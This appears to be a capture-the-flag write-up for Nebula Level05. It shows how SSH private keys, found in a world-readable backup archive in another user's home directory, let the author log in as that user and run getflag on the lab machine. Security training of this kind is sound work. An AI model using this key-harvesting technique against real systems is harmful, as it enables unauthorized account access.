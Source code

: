 # Level05

## Task

>Check the flag05 home directory. You are looking for weak directory permissions

>To do this level, log in as the level05 account with the password level05. Files for this level can be found in /home/flag05.

## Solution

looking in the directory we see a `.backup` folder with "lax" permissions

```
level05@nebula:/home/flag05$ ls -la
total 5
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root     200 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
```

looking in the `.backup` folder we see a `.tgz` archive

```
level05@nebula:/home/flag05$ ls -la .backup/
total 2
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
```

unarchiving it shows an ssh key

```
level05@nebula:/home/flag05/.backup$ cp backup-19072011.tgz ~
level05@nebula:/home/flag05/.backup$ cd
level05@nebula:~$ ls
backup-19072011.tgz
level05@nebula:~$ tar xvzf ./backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

using the key to ssh allows us to login as the flag user

```
level05@nebula:~$ ssh flag05@localhost -i .ssh/id_rsa
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
```

```
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```
